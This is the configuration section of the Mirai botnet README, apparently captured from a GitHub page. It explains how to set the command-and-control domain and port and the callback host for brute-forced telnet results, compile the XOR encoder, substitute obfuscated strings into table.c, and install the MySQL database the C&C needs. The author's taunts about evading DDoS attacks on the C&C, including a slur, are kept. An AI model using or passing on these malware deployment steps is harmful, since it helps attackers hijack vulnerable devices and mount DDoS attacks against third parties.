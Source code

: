 Bot has several configuration options that are obfuscated in `table.c/table.h`.
In [`./mirai/bot/table.h`](mirai/bot/table.h) you can find most descriptions for
configuration options.  However, in [`./mirai/bot/table.c`](mirai/bot/table.c)
there are a few options you *need* to change to get working.

* `TABLE_CNC_DOMAIN` - Domain name of CNC to connect to - DDoS avoidance very
	fun with mirai, people try to hit my CNC but I update it faster than they can
	find new IPs, lol. Retards :)
* `TABLE_CNC_PORT` - Port to connect to, its set to 23 already
* `TABLE_SCAN_CB_DOMAIN` - When finding bruted results, this domain it is
	reported to
* `TABLE_SCAN_CB_PORT` - Port to connect to for bruted results, it is set to
	`48101` already.

In [`./mirai/tools`](mirai/tools) you will find something called enc.c - You
must compile this to output things to put in the table.c file

Run this inside mirai directory

		./build.sh debug telnet

You will get some errors related to cross-compilers not being there if you have
not configured them. This is ok, won't affect compiling the enc tool

Now, in the `./mirai/debug` folder you should see a compiled binary called enc.
For example, to get obfuscated string for domain name for bots to connect to,
use this:

		./debug/enc string fuck.the.police.com

The output should look like this

		XOR'ing 20 bytes of data...
		\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22

To update the `TABLE_CNC_DOMAIN` value for example, replace  that long hex string
with the one provided by enc tool. Also, you see `XOR'ing 20 bytes of data`.
This value must replace the last argument tas well. So for example, the table.c
line originally looks like this

		add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com

Now that we know value from enc tool, we update it like this

		add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com

Some values are strings, some are port (uint16 in network order / big endian).

# Configuring CNC

		apt-get install mysql-server mysql-client

CNC requires database to work. When you install database, go into it and run
following commands: http://pastebin.com/86d0iL9g (ref:
[`db.sql`](scripts/db.sql))
